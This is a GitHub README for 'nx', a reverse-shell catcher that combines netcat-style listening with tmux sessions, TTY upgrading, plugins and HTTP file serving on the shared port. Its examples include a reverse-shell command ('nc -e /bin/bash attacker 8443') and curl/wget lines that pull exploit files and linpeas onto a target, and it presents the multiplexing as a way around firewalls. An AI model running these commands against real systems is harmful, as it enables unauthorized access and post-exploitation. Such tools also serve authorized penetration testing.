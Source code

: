 # nx

[n]etcat + tmu[x] - listen on a port and forward the stream to a tmux session

## Prerequisites

- tmux - required for session/window management
- socat - required for TTY handling and keystroke forwarding

## Usage

1. start a listener
```sh
nx -vp 9090
```

2. from a different machine, initiate the reverse shell
3. nx catches the connection then starts a tmux window in the `nx` session, and starts the shell there

```
Usage:
  nx [OPTIONS]

Application Options:
      --auto       Attempt to auto-upgrade to a tty (deprecated: use --exec auto)
      --exec=      Execute plugin script on connection
  -i, --host=      Interface address on which to bind (default: 0.0.0.0)
  -p, --port=      Port on which to bind (default: 8443)
  -t, --target=    Tmux session name (default: nx)
  -v, --verbose    Debug logging
      --sleep=     adjust if --auto is failing (default: 500ms)
  -d, --serve-dir= Directory to serve files from over HTTP
```

## Features

- **Plugin system**: Use `--exec <plugin>` to run custom scripts on connection
- **Auto-upgrade to TTY**: Use `--exec auto` (or deprecated `--auto` flag) to automatically upgrade your shell to a TTY
- **Protocol multiplexing**: Serve files over HTTP on the same port as shell connections using `--serve-dir`
- **XDG runtime paths**: Automatically uses XDG runtime directory for socket location
- **Signal handling**: Properly handles signals and performs cleanup

## Plugin System

nx supports a plugin system for executing custom commands when a new connection is established. Plugins are shell scripts stored in `~/.config/nx/plugins/`.

### Creating Plugins

1. Create a shell script in `~/.config/nx/plugins/<name>.sh`
2. Make it executable: `chmod +x ~/.config/nx/plugins/<name>.sh`
3. Use the plugin: `nx --exec <name>`

### Plugin Format

Plugins are simple shell scripts with these features:
- Lines starting with `#` are ignored (comments)
- Empty lines are ignored
- All other lines are executed as tmux commands in the reverse shell

### Example Plugin

```bash
#!/bin/bash
# Custom upgrade script
echo "Setting up environment..."
export PATH=/usr/local/bin:$PATH
whoami
```

### Built-in Plugins

- **auto**: TTY upgrade script (equivalent to deprecated `--auto` flag)

## Protocol Multiplexing

nx can serve files over HTTP on the same port as shell connections. This allows you to host exploit files and catch shells on a single port, avoiding firewall restrictions.

### HTTP File Serving

Enable file serving by specifying a directory with the `-d` or `--serve-dir` flag:

```bash
# Start nx with file serving enabled
nx -p 8443 -d ./files -v

# From target machine - download files
curl http://attacker:8443/exploit.exe -o exploit.exe
wget http://attacker:8443/linpeas.sh

# Shell connections still work normally
nc -e /bin/bash attacker 8443
```

### Security Features

- **Directory traversal protection**: Prevents access to files outside the serve directory
- **Hidden file protection**: Blocks access to files starting with `.`
- **Method validation**: Only GET requests are supported for file serving
- **Path sanitization**: All paths are cleaned and validated

### Mixed Operation Example

```bash
# Terminal 1: Start nx with both features
nx -p 8443 -d ./tools -v

# Terminal 2: Download a tool from target
curl http://attacker:8443/nc.exe -o nc.exe

# Terminal 3: Catch reverse shell
nc -e /bin/bash attacker 8443
```

### HTTP Response Codes

- `200 OK`: File served successfully
- `404 Not Found`: File doesn't exist or is a directory
- `405 Method Not Allowed`: Non-GET HTTP methods
- `500 Internal Server Error`: Server-side errors

## How?

unix domain sockets mannn

## ToDo
- [x] ~~maybe a plugin system for sending commands on connection~~ ✅ **DONE**: Implemented plugin system with `--exec` flag
- [x] ~~some mechanism to auto-upgrade the shell to a TTY via tmux-send-keys or sourcing a script that just adds the keybinds, so that it's up to the user to fire off the upgrade~~ ✅ **DONE**: Auto-upgrade via `--exec auto`
- [x] ~~alternatively, multiplex the connection to allow `curl | sh` from the same port~~ ✅ **DONE**: Protocol multiplexing with `--serve-dir`
- [x] ~~multiplexing listener~~ ✅ **DONE**: HTTP/shell protocol detection on same port
- [ ] handle stdio with the socket directly with `nx`, eliminating the need for `socat`
- [ ] facilitate installing plugins dir to xdg
- [ ] super simple chisel-light functionality
